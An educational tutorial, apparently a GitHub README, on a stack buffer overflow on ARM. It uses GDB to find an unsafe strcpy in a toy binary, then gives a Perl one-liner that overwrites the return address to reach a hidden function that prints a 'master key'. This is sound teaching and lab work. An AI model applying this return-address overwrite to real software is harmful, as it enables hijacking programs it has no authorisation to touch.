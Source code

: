 # Buffer overflow on ARM architecture
## Prerequisites
-	A RaspberryPi and a distro. For this tutorial, I had an up-to-date Raspbian Stretch Lite with LXDE.
-	GCC and GDB.

## ARM registers and stack
TODO

## An example of buffer overflow
### Initial state
- We have a binary without its source code but compiled with debug information.
- We know how to use it: `./prog2 PASS` where `PASS` is a 4-character string.
- We would like to know if there's interesting stuff or even dead code in it.

### Playground
Run GDB:
```bash
gdb prog2
```
What we can disassemble with GDB:
```assembly
(gdb) disassemble
/usr/include/arm-linux-gnueabihf/bits/sys_errlist.h  __gmon_start__                                       frame_dummy
/usr/include/arm-linux-gnueabihf/bits/types.h        __gmon_start__@plt                                   int
/usr/include/libio.h                                 __init_array_end                                     long int
/usr/include/stdio.h                                 __init_array_start                                   long long int
/usr/lib/gcc/arm-linux-gnueabihf/6/include/stddef.h  __libc_csu_fini                                      long long unsigned int
_DYNAMIC                                             __libc_csu_init                                      long unsigned int
_GLOBAL_OFFSET_TABLE_                                __libc_start_main                                    main
_IO_2_1_stderr_                                      __libc_start_main@plt                                prog2.c
_IO_2_1_stdin_                                       __off64_t                                            puts
_IO_2_1_stdout_                                      __off_t                                              puts@plt
_IO_FILE                                             __quad_t                                             register_tm_clones
_IO_lock_t                                           _bss_end__                                           short int
_IO_marker                                           _edata                                               short unsigned int
_IO_stdin_used                                       _end                                                 signed char
__FRAME_END__                                        _fini                                                size_t
__JCR_END__                                          _init                                                sizetype
__JCR_LIST__                                         _start                                               stderr
__TMC_END__                                          abort                                                stdin
__bss_end__                                          abort@plt                                            stdout
__bss_start                                          call_weak_fn                                         strcpy
__bss_start__                                        char                                                 strcpy@plt
__data_start                                         completed                                            sys_errlist
__do_global_dtors_aux                                data_start                                           sys_nerr
__do_global_dtors_aux_fini_array_entry               deregister_tm_clones                                 unsigned char
__dso_handle                                         dont_touch_this                                      unsigned int
__end__                                              exit
__frame_dummy_init_array_entry                       exit@plt
```
Lots of stuff there... We can find at least two interesting:
- `main`
- `dont_touch_this`. Yes, I compiled the code myself for this tutorial. Of course, you should not name critical code like this!

Let's disassemble the main function
```assembly
(gdb) disassemble main
Dump of assembler code for function main:
   0x000104b8 <+0>:     push    {r11, lr}
   0x000104bc <+4>:     add     r11, sp, #4
   0x000104c0 <+8>:     sub     sp, sp, #16
   0x000104c4 <+12>:    str     r0, [r11, #-16]
   0x000104c8 <+16>:    str     r1, [r11, #-20] ; 0xffffffec
   0x000104cc <+20>:    ldr     r3, [r11, #-20] ; 0xffffffec
   0x000104d0 <+24>:    add     r3, r3, #4
   0x000104d4 <+28>:    ldr     r2, [r3]
   0x000104d8 <+32>:    sub     r3, r11, #8
   0x000104dc <+36>:    mov     r1, r2
   0x000104e0 <+40>:    mov     r0, r3
   0x000104e4 <+44>:    bl      0x1032c <strcpy@plt>
   0x000104e8 <+48>:    mov     r3, #0
   0x000104ec <+52>:    mov     r0, r3
   0x000104f0 <+56>:    sub     sp, r11, #4
   0x000104f4 <+60>:    pop     {r11, pc}
End of assembler dump.
```
- No call to `dont_touch_this`. It means this is a dead code section. Why?
- Oh, `strcpy`! We found a breach! This functions must not be used nowadays as it doesn't check buffer length (https://security.web.cern.ch/security/recommendations/en/codetools/c.shtml). We should try a buffer overflow at this line.

If we disassemble `dont_touch_this`, we can get the entry point of this function (address `0x0001049c`):
```assembly
(gdb) disassemble dont_touch_this
Dump of assembler code for function dont_touch_this:
   0x0001049c <+0>:     push    {r11, lr}
   0x000104a0 <+4>:     add     r11, sp, #4
   0x000104a4 <+8>:     ldr     r0, [pc, #8]    ; 0x104b4 <dont_touch_this+24>
   0x000104a8 <+12>:    bl      0x10338 <puts@plt>
   0x000104ac <+16>:    mov     r0, #0
   0x000104b0 <+20>:    bl      0x1035c <exit@plt>
   0x000104b4 <+24>:    andeq   r0, r1, r8, ror #10
End of assembler dump.
```
Putting a breakpoint right after the `strcpy`: 
```assembly
(gdb) break *0x000104e8
Breakpoint 1 at 0x104e8: file prog2.c, line 14.
```
Running the program with valid input and checking registers and stack values:
```assembly
(gdb) run AAAA
Starting program: /home/pi/Documents/tutorial/prog2 AAAA
Breakpoint 1, main (argc=2, argv=0x7efff684) at prog2.c:14
14          return 0;
```

```assembly
(gdb) info registers
r0             0x7efff524       2130703652
r1             0x7efff7d7       2130704343
r2             0x0      0
r3             0x9      9
r4             0x104f8  66808
r5             0x0      0
r6             0x10374  66420
r7             0x0      0
r8             0x0      0
r9             0x0      0
r10            0x76fff000       1996484608
r11            0x7efff52c       2130703660
r12            0x7efff524       2130703652
sp             0x7efff518       0x7efff518
lr             0x104e8  66792
pc             0x104e8  0x104e8 <main+48>
cpsr           0x20000010       536870928
```
```assembly
(gdb) x/16x $sp
0x7efff518:     0x7efff684      0x00000002      0x00000000      0x41414141
0x7efff528:     0x00000000      0x76e80678      0x76fa5000      0x7efff684
0x7efff538:     0x00000002      0x000104b8      0x76ffecf0      0x7efff5d0
0x7efff548:     0xf35a2f10      0xfb4ddc14      0x000104f8      0x00000000
```
- In the stack, we can see our `AAAA` as `0x41414141` (ASCII codes, little-endian).
- `0x76e80678` is the return address.

Same thing with longer input:
```assembly
(gdb) run ABCDABCD
Starting program: /home/pi/Documents/tutorial/prog2 ABCDABCD
```

```assembly
(gdb) x/16x $sp
0x7efff518:     0x7efff684      0x00000002      0x00000000      0x44434241
0x7efff528:     0x44434241      0x76e80600      0x76fa5000      0x7efff684
0x7efff538:     0x00000002      0x000104b8      0x76ffecf0      0x7efff5d0
0x7efff548:     0xc9cf5894      0xc1d8ab90      0x000104f8      0x00000000
```
- As expected, we find the `0x44434241` twice (corresponds to `DCBA`).  

```assembly
(gdb) continue
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x76e80600 in __libc_start_main (main=0x7efff684, argc=1996115968, argv=0x76e80600 <__libc_start_main+156>, init=0x104f8 <__libc_csu_init>,
    fini=0x10558 <__libc_csu_fini>, rtld_fini=0x76fdf9b8 <_dl_fini>, stack_end=0x7efff684) at libc-start.c:247
247     libc-start.c: No such file or directory.
```
If we continue the program execution, we see a segfault while the return address is `0x76e80600`..
There's already a buffer overflow here. However, it would be useful to redirect it to the `dont_touch_this` method to see what's in there.

```bash
pi@raspberrypi:~/Documents/tutorial $ ./prog2 $(perl -e 'print "ABCDABCD\x9c\x04\x01";')
The master key is 0xDEADBEEF
```
YES! We entered the dead code and found a master key :smiling_imp:
- `ABCDABCD` to fill the stack with some bytes (it could be anything).
- The next 3 bytes are the entry point of `dont_touch_this` in little endian (see GDB output).
- I was lucky because this binary was compiled without stack protection. It seems a bit crazy but, on a default Raspbian distro, the `fstack-protector` flag is not enabled...

If I tried my buffer overflow attack when the binary has been compiled with the stack protector, I would get the following message:
```bash
*** stack smashing detected ***: ./prog2 terminated
Aborted__
```

## References
https://www.merckedsecurity.com/blog/smashing-the-arm-stack-part-1

http://billyellis.net/
